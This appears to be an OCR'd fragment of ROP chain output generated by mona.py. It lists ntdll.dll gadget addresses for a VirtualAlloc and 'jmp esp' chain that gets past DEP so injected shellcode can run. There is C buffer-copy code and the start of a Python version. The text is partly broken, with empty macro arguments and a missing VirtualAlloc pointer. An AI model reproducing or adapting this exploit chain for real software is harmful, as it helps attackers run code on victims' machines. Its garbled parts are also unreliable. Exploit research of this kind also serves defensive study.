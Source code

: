 	0x77695aca, // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000001, // 0x00000001-> ebx

	0x776a7599, // POP EDX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00001000, // 0x00001000-> edx

	0x7772d241, // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, // 0x00000040-> ecx

	0x77695399, // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, // RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x77703e9e, // POP ESI // RETN [ntdll.dll] ** REBASED ** ASLR

	0x77662065, // JMP [EAX] [ntdll.dll]

	0x776fa30c, // POP EAX // RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, // [-] Unable to find ptr to &VirtualAlloc()

	0x77661052, // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR

	0x776be871, // ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	};

	if(buf != NULL) {

	memcpy(buf, rop_gadgets, sizeof(rop_gadgets));

	};

	return sizeof(rop_gadgets);

	}

	// use the 'rop_chain' variable after this call, it's just an unsigned int[]

	CREATE_ROP_CHAIN(rop_chain, );

	// alternatively just allocate a large enough buffer and get the rop chain,
	i.e.:

	// unsigned int rop_chain[256];

	// int rop_chain_length = create_rop_chain(rop_chain, );

	*** [ Python ] ***

	def create_rop_chain():

	# rop chain generated with mona.py - www.corelan.be

	rop_gadgets = [

	0x7772c1f0, # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR

	0x7772c1f0, # skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
